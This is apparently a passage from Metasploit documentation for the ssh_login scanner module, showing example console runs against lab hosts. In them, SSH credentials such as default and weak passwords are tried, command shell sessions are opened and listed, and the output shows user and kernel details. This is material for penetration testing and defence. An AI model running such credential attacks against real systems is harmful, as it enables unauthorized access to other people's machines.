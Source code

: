   ````[+] SSH - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '```
msf auxiliary(ssh_login) > set password "badpassword"
password => badpassword
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'winuser:badpassword' ''
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (192.168.2.117:42227 -> 192.168.2.140:22) at 2017-02-22 20:40:12 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > sessions -l

Active sessions
===============

  Id  Type     Information                               Connection
  --  ----     -----------                               ----------
  1   shell /  SSH winuser:badpassword (192.168.2.140:22)  192.168.2.117:42227 -> 192.168.2.140:22 (192.168.2.140)

```

  Example run against:
  * Windows 10 w/ Bitvise SSH Server (WinSSHD) version 7.26-r2 and a virtual account created
  
  It is important to note here that the module gives back a **Success**, but then errors when trying to identify the remote system.
  This should be enough info to manually exploit via a regular SSH command.

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set rhosts 192.168.2.140
rhosts => 192.168.2.140
msf auxiliary(ssh_login) > set username virtual
username => virtual
msf auxiliary(ssh_login) > set password virtual
password => virtual
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'virtual:virtual' 'id: Command not found.  help ?: Command not found.  '
[!] No active DB -- Credential data will not be saved!
[*] 192.168.2.140 - Command shell session 4 closed.  Reason: Died from EOFError
[*] Command shell session 4 opened (192.168.2.117:36169 -> 192.168.2.140:22) at 2017-02-22 21:20:24 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
